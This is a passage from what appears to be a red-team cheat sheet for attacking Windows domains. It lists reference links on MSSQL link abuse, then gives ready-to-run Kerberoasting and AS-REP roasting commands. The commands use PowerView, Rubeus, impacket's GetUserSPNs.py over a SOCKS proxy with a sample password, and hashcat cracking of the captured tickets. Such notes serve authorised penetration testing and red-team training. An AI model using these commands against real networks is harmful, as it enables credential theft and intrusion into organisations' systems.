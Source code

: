 - [The dangers of MSSQL features – Impersonation & Links](https://improsec.com/tech-blog/dangers-mssql-features-impersonation-amp-links)
- [Using SQL Server for attacking a Forest Trust](http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html)
- [How to Hack Database Links in SQL Server!](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Database Links Cheat Sheet](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/Security_cheatsheets/databases/sqlserver/5-lateral-movement.md)
- [MSSQL - OSEP Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)
- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
- [XCT MSSQL Notes](https://notes.vulndev.io/notes/redteam/payloads/windows/mssql)

### Kerberos

#### Kerberoasting

Hunt with PowerView

```
beacon> powershell-import /opt/tools/PowerSploit/Recon/PowerView.ps1
beacon> powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
[...]
```

Kerberoast using Rubeus

```
beacon> execute-assembly /opt/tools/Rubeus.exe kerberoast
[...]
```

impacket

```
# setup socks proxy
beacon> socks 1050
[...]

# from linux terminal 
$ proxychains /usr/local/bin/GetUserSPNs.py -target-domain vault -usersfile kerberoast_able-users.txt -request -dc-ip 10.0.0.1 'vault/s.user:Passw0rd'

# crack
$ hashcat -a 0 -m 18200 [...]
```

#### ASREPRoasting

Hunt with PowerView

```
beacon> Get-DomainUser -PreauthNotRequired -Properties SamAccountName
```

Impacket
